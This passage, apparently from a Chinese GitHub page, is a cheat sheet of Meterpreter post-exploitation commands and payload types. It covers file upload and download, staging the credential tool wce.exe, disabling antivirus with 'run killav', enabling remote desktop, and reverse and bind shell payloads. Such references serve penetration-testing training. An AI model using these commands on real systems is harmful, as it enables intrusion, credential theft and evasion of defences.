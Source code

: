 列出当前所有session：`sessions -l`

进入某个session：`sessions -i id`

关闭会话：`exit`

帮助信息：`help`

系统平台信息：`sysinfo`

屏幕截取：`screenshot`

命令行shell：`shell`

查看本地目录：`getlwd`

切换本地目录：`lcd`

查看目录：`getwd`

查看文件目录列表：`ls`

切换目录：`cd`

删除文件：`rm`

下载文件：`download c:\\1.txt 1.txt`

上传文件：`upload /var/www/wce.exe wce.exe`

搜索文件：`search -d c: -f *.doc` 

执行程序：`execute -f cmd.exe -i`

查看进程：`ps`

查看当前用户权限：`getuid`

关闭杀毒软件：`run killav`

启用远程桌面：`run getgui-e`

<br/>

#### 5、meterpreter常用shell

- reverse_tcp
  ```sh
  # 基于TCP的反弹shell
  linux/meterpreter/reverse_tcp
  windows/meterpreter/reverse_tcp
  ```
- bind_tcp
  ```sh
  # 基于TCP的正向连接shell，因为在内网跨网段时无法连接到攻击者的机器，所以在内网中经常会使用，不需要设置LHOST
  linux/meterpreter/bind_tcp
  ```
- reverse_http
  ```sh
  # 基于http方式的反向连接，在网速慢的情况下不稳定
  windows/meterpreter/reverse_http
  ```
- reverse_https
  ```sh
  # 基于https方式的反向连接，在网速慢的情况下不稳定
  windows/meterpreter/reverse_https
  ```
